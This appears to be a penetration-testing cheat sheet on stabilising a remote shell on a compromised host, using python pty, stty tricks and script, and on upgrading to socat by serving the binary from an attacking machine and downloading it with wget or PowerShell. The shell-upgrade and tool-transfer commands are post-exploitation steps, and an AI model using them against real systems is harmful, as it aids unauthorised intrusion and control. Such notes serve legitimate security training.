 # Stabilize shell


The Python interpreter, frequently installed on Linux systems, comes with a standard module named pty that allows for creation of pseudo-terminals.
By using this module, we can spawn a separate process from our remote shell and obtain a fully interactive shell.


- make sure we have TTY functionality by using the Python 3's `pty` module
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```





```
# step 1
python -c 'import pty;pty.spawn("/bin/bash")' # note that some targets may need the version of Python specified
# step 2
export TERM=xterm # this will give us access to term commands such as clear  
# step 3
stty raw -echo; fg # it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

```



```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
# Then press Enter twice, and then enter:
export TERM=xterm
```






It's also useful to be able to change your terminal tty size. First check the current values with: `stty -a` and then change it with `stty rows NUMBER` and `stty cols NUMBER`.



Another way stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.


